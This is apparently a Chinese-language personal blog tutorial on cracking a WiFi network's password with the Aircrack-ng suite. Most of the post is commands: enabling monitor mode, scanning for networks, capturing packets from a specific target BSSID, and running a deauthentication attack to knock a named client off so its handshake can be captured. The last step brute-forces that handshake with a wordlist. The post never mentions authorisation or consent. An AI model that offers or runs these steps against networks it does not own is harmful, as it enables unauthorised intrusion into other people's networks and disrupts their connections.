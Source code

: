```yaml
---
title: Aircrack-ng 破解WIFI密码
date: 2018-09-20 
tags: kali
layut: post
music: 27968003
---
```


### 支持监听模式的无线网卡
我这里使用的是**rt3070**
一般**8187**和**3070**的网卡都可以开启监听模式。
![无线网卡](http://da1sy.github.io/assets/images/9-Yue/wifi-1.jpg)
### 1.网卡开启监听模式
> ⚡/home/da1sy # airmon-ng start wlan1

![1](http://da1sy.github.io/assets/images/9-Yue/wifi-2.jpg)
开启监听模式后网卡名子后坠都会更改为mon

### 2.搜索广播中的WIFI
> ⚡/home/da1sy # airodump-ng -a wlan1mon

![2](http://da1sy.github.io/assets/images/9-Yue/wifi-3.jpg)
### 3.对指定的网络进行抓包
> ⚡/home/da1sy/wifi # airodump-ng -w add --bssid 44:97:5A:9B:38:8A -c 7 wlan1mon

![3](http://da1sy.github.io/assets/images/9-Yue/wifi-4.jpg)
**-w**是要保存的包名，**--bssid**是目标网络的MAC地质，**-c**是该网络的信道
### 如果抓不到握手包，就用下面命令让目标重新连接网络
> ⚡/home/da1sy/wifi # aireplay-ng -0 5 -a 44:97:5A:9B:38:8A -c 2C:D9:74:69:B4:85 wlan1mon

![4](http://da1sy.github.io/assets/images/9-Yue/wifi-5.jpg)
### 4.开始暴力破解
> ⚡/home/da1sy/wifi # aircrack-ng -w /media/da1sy/软件/DA1SY/password/supper955.txt add-01.cap



